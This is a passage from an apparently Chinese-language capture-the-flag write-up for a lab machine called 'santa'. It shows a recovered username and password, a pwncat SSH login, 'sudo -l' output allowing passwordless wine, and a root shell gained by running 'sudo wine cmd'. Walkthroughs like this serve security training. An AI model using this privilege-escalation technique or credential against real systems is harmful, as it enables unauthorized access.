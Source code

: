 得到凭据

```plaintext
bill:JingleBellsPhishingSmellsHackersGoAway
```

## User - bill

```shell
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs bill@192.168.56.124
[18:57:52] Welcome to pwncat 🐈!
Password: **************************************
[18:57:59] 192.168.56.124:22: upgrading from /usr/bin/dash to /usr/bin/bash
[18:58:00] 192.168.56.124:22: registered new host w/ db
(local) pwncat$ back
(remote) bill@santa:/home/bill$ whoami
bill
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for bill on santa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bill may run the following commands on santa:
    (ALL) NOPASSWD: /usr/bin/wine
```

## User - root

```shell
$ sudo /usr/bin/wine cmd
it looks like wine32 is missing, you should install it.
multiarch needs to be enabled first.  as root, please
execute "dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32:i386"
X11 connection rejected because of wrong authentication.
0050:err:winediag:nodrv_CreateWindow Application tried to create a window, but no driver could be loaded.
0050:err:winediag:nodrv_CreateWindow L"The explorer process failed to start."
0050:err:systray:initialize_systray Could not create tray window
Microsoft Windows 6.1.7601

Z:\home\bill>whoami
0120:err:winediag:ntlm_check_version ntlm_auth was not found. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.
0120:err:ntlm:ntlm_LsaApInitializePackage no NTLM support, expect problems
SANTA\root
```
